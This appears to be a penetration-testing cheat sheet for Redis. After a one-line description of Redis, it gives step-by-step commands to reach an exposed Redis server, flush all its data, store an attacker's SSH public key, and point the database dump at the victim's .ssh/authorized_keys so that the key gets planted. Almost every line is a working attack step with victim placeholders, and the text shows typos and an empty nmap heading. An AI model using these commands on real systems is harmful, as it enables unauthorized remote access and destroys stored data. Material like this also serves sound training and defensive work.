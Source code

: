Data structure store, used as a database, cache and message broker. It supports data structures such as strings, hashes, lists, sets, sorted sets with range queries, bitmaps, hyperloglogs, geospatial indexes with radius queries and streams

#### nmap

#### telnet
```
telnet <victim_ip> <redis_port_usually_6379>
```

#### nc
```
nc <victim_ip> <redis_port_usually_6379>
```

#### Generate SSH key
```
ssh-keygen -t rsa b 4096 -C <youremail>@<email_domain>
```

### Add random data before and after our key:
```
- (echo -e "\n\n"; cat id_rsa.pub; echo -e "\n\n") > key.txt
```

### Connect to redis 
```
apt-get install redis-tools
redis-cli -h <victim_ip>
````

### Flush keys\
```
redis-cli -h <victim_ip> -p 6379 flushall
```

### Set our keys into the database
```
cat key.txt | redis-cli -h <victim_ip> -p 6379 -x set bb
```

### Check the current folder 
```
>config get dir
```

### Change out directory
```
> config set dir /<victim_user_name>/.ssh/
for examople: config set dir /var/lib/redis/.ssh/
```

### Change name of our file
```
> set dbfilename "authorized_keys"
```
